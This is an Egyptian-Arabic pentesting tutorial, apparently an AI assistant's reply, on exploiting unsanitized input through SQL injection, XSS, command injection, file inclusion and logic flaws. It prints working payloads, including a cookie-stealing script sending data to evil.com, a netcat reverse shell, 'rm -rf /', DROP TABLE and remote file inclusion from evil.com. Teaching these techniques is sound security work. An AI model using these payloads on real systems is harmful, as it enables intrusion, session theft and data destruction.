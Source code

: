 تمام، هشرحلك موضوع "Exploiting Unsanitized User Input" بعمق من منظور عملي كـ Penetration Tester (Pentester)، وهديك أمثلة عملية بالأوامر والأكواد، وهحط الخلاصة بالعامية المصرية بعد كل جزء، وبعدين هعدلك كل السيناريوهات الممكنة للاستغلال.

---

### **1. مفهوم Unsanitized User Input بعمق**
في أي نظام أو تطبيق (زي موقع ويب أو برنامج)، لما المستخدم بيدخل بيانات (زي اسم، باسورد، تعليق، أو حتى حاجة في شريط البحث)، البيانات دي بتروح للسيرفر عشان يتعامل معاها. لو المبرمج ما عملش "Sanitization" أو "Validation" كويس، يعني ما حطش قواعد صلبة على شكل البيانات المسموح بيها أو ما نظفهاش من الأكواد الخبيثة، هنا بتبقى في نقطة ضعف.

ء **Sanitization** يعني تنضيف البيانات من أي حاجة ممكن تتنفذ ككود (زي أوامر SQL أو JavaScript).  
ء **Validation** يعني التأكد إن البيانات دي فعلاً شكلها صح (مثلاً: رقم تليفون لازم يكون أرقام بس، مش حروف).

لو التنضيف ده ما حصلش، البيانات ممكن تتحول من مجرد "إنبوت عادي" لـ "كود يتنفذ"، وده اللي بنستغلاه كـ Pentesters.

**خلاصة بالعامية:**  
يعني لو الموقع أو البرنامج "مفتوح الباب" ومش بيشوف اللي داخل منك نظيف ولا لأ، يبقى إنت كـ هاكر ممكن تدخل أي حاجة تخرب بيها الدنيا.

---

### **2. الجانب العملي: أنواع الهجمات الشائعة**
هنشرح أهم الطرق اللي بنستغل بيها الـ Unsanitized Input مع أمثلة عملية:

#### **أ. SQL Injection**
لو موقع بياخد إنبوت من المستخدم (زي حقل لوجن) وبيحطه مباشرة في استعلام SQL من غير تنضيف، ممكن نستغل ده.

- **مثال عملي:**
  لنفرض في حقل Username وPassword في صفحة لوجن، والكود في الباك إند كده:
  ```
  SELECT * FROM users WHERE username = '$username' AND password = '$password';
  ```
  لو المستخدم دخل في حقل Username: `admin' --` وفي Password أي حاجة، الاستعلام هيبقى:
  ```
  SELECT * FROM users WHERE username = 'admin' --' AND password = 'whatever';
  ```
  الـ `--` دي تعليق في SQL، يعني كل اللي بعده مش هيتنفذ، وهيتسجل دخولك كـ admin من غير ما تحتاج الباسورد.

- **أمر عملي كـ Pentester:**
  جرب تدخل في حقل الإنبوت:
  ```
  ' OR 1=1 --
  ```
  لو الموقع سمحلك تدخل من غير باسورد، يبقى في ثغرة SQL Injection.

**خلاصة بالعامية:**  
الموقع لو بياخد الكلام اللي بتكتبه ويحطه في الداتابيز من غير ما يشوفه، ممكن تكتب جملة "افتحلي الباب" ويدخلك كأنك صاحب المكان.

#### **ب. Cross-Site Scripting (XSS)**
لو موقع بيسمح لك تكتب تعليق أو حاجة تتعرض على صفحة، وما بينضفش الإنبوت، ممكن تدخل JavaScript يتنفذ في متصفح المستخدمين.

- **مثال عملي:**
  لنفرض في حقل تعليق، وكتبت فيه:
  ```
  <script>alert('Hacked!');</script>
  ```
  لو الموقع عرض التعليق زي ما هو من غير ما يحول الـ `<script>` لنص عادي، هيطلعلك أليرت في الصفحة، وده يثبت إنه عرضة لـ XSS.

- **استغلال أعمق:**
  ممكن تدخل كود يسرق الكوكيز (جلسة المستخدم):
  ```
  <script>document.location='http://evil.com?cookie='+document.cookie;</script>
  ```
  لما حد يفتح الصفحة، الكوكيز بتاعته هتروح للموقع اللي إنت عملته.

- **أمر عملي كـ Pentester:**
  جرب في أي حقل إنبوت (زي Search أو Comment):
  ```
  <script>console.log('Test');</script>
  ```
  افتح Developer Tools (F12) وشوف لو الكونسول طبع "Test"، يبقى في XSS.

**خلاصة بالعامية:**  
الموقع لو بياخد الكلام اللي بتكتبه ويحطه زي ما هو على الصفحة، ممكن تكتب حاجة تخلي المتصفح يعمل أي حاجة إنت عايزها، زي ما تسرق بيانات اللي بيزوروا الموقع.

#### **ج. Command Injection**
لو تطبيق بياخد إنبوت ويحطه في أمر للنظام (زي Linux أو Windows)، ممكن نستغل ده.

- **مثال عملي:**
  لنفرض موقع فيه حقل بياخد IP عشان يعمل ping، والكود كده:
  ```
  system("ping " . $input);
  ```
  لو كتبت في الحقل:
  ```
  127.0.0.1 && whoami
  ```
  الأمر هيتنفذ كده:
  ```
  ping 127.0.0.1 && whoami
  ```
  الـ `&&` بتخلي النظام ينفذ أمر تاني، وهيرجعلك اسم المستخدم اللي السيرفر شغال بيه.

- **أمر عملي كـ Pentester:**
  جرب في حقل إنبوت مشابه:
  ```
  ; ls -la
  ```
  أو لو Windows:
  ```
  & dir
  ```
  لو رجعلك نتايج، يبقى في Command Injection.

**خلاصة بالعامية:**  
الموقع لو بياخد كلامك ويروح ينفذه كأمر على السيرفر من غير ما يفهمه، ممكن تخليه يعمل أي حاجة، زي ما تفتحله باب خلفي.

---

### **3. سيناريوهات الاستغلال الممكنة كـ Pentester**
دلوقتي بعد الشرح، هعدلك كل السيناريوهات اللي ممكن تستغل بيها الـ Unsanitized User Input:

1. **SQL Injection:**
   - تسجيل دخول من غير بيانات صحيحة (`' OR 1=1 --`).
   - استخراج بيانات الداتابيز (`' UNION SELECT username, password FROM users --`).
   - حذف الداتابيز (`'; DROP TABLE users; --`).

2. **XSS (Stored):**
   - تخزين كود خبيث في تعليق أو بروفايل يتنفذ لكل الزوار.
   - سرقة الكوكيز أو جلسات المستخدمين.
   - توجيه المستخدمين لموقع خبيث.

3. **XSS (Reflected):**
   - إنك ترسل لينك مضروب (زي `http://site.com/search?q=<script>alert(1)</script>`) لحد ويتنفذ الكود لما يفتحه.
   - سرقة بيانات من صفحة معينة.

4. **Command Injection:**
   - تنفيذ أوامر زي `whoami` أو `id` عشان تعرف مين شغال على السيرفر.
   - فتح شيل عكسي (`; nc -e /bin/sh 10.10.10.10 4444`).
   - حذف ملفات أو تدمير النظام (`; rm -rf /`).

5. **File Inclusion (Local/Remote):**
   - لو الإنبوت بيخش في كود زي `include($input);`، جرب:
     - `../../etc/passwd` (Local File Inclusion).
     - `http://evil.com/shell.txt` (Remote File Inclusion).

6. **Authentication Bypass:**
   - لو الإنبوت بيروح لفحص بيانات، جرب حاجات زي:
     - `admin' OR '1'='1` (للدخول كأدمن).
     - `null` أو قيم غريبة تعطل الفحص.

7. **Logic Flaws:**
   - لو إنبوت زي كمية منتج في متجر، جرب تدخل `-1` تشتري حاجة ببلاش أو تعكس الفلوس.

---

### **نصيحة كـ Pentester:**
- استخدم أدوات زي **Burp Suite** عشان تعدل الإنبوت وتشوف السيرفر بيرد ازاي.
- جرب كل أنواع الإنبوت الغريبة (حروف، أرقام، رموز، أكواد).
- ركز على النقط اللي المستخدم بيتفاعل معاها (حقول، لينكات، فورم).

لو عايز شرح أعمق لأي سيناريو أو أداة معينة، قوللي!